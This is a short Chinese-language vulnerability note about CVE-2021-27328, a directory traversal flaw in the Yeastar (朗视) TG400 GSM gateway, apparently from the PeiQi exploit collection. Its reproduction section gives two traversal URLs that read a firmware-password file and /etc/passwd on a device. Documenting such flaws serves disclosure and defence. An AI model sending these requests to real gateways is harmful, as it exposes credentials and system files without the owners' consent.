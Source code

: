 ```yaml
---
title: 朗视 TG400 GSM 网关目录遍历  CVE-2021-27328
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - 朗视
---
```


# 朗视 TG400 GSM 网关目录遍历  CVE-2021-27328

## 漏洞描述

朗视 TG400 GSM 网关存在目录遍历 ，攻击者可以通过漏洞获取敏感信息



## 漏洞影响

> [!NOTE]
>
> 朗视 TG400 GSM 网关



## 漏洞复现

暂无FOFA语句及固件设备复现



```
获取固件解密密码
http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../bin/firmware_detect
/etc/passwd：
http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../etc/passwd
```

## 参考文章

https://github.com/SQSamir/CVE-2021-27328